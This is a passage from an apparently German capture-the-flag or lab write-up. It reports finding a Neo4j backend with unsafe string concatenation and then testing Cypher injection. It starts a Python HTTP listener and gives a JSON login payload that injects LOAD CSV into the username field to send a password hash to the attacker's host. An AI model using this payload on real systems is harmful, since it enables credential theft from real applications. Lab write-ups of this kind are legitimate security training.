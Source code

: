 ![neo4j error](Screenshot_2025-05-05_14_49_33-1.png)

Das ist ein starker Hinweis: Backend nutzt **Neo4j** und **unsichere String‑Konkatenation**. Wir entscheiden uns, gezielt Cypher‑Injection zu testen.

---

## 4. Datenabfluss mit LOAD CSV auslösen

Ziel: Hash exfiltrieren.

Wir starten einen Python‑HTTP‑Server:

```bash
python3 -m http.server 8000
```

Dann testen wir eine modifizierte Payload mit `LOAD CSV` direkt in den Username‑Feld:

```json
{
  "username": "admin' OR 1=1  LOAD CSV FROM 'http://10.10.14.204:8000/leak='+h.value AS y RETURN ''//",
  "password": "123"
}
```

